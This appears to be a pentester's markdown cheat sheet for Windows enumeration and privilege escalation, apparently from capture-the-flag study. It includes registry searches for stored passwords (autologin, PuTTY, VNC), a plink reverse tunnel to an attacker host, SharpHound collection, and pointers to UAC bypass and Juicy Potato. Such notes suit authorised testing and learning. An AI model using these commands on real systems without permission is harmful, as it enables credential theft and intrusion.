 # Windows Survey and Privilege Escalation

System Information:
```

systeminfo

ver 
hostname

```

Networking:
```
ipconfig
ipconfig /all
route print
arp -A
type C:\windows\system32\drivers\etc\networks

# display active TCP connections:
netstat -ano

# with executeanle 
netstat -bano
```

View the current user's information:
```
echo %username%

# account information and group memberships:
net user <USERNAME> 

# more about the user
whoami /privs
whoami /all

```


User informations:
```

# list users
net user

```

Firewall STatus:
```
#what is the new command?
netsh advfirewall show state
netsh advfirewall show config
```

Users and Groups 
```

#search through user directories

tree /f /a C:\Users\<USERNAME>

```

Password Searching:

Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine

### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?




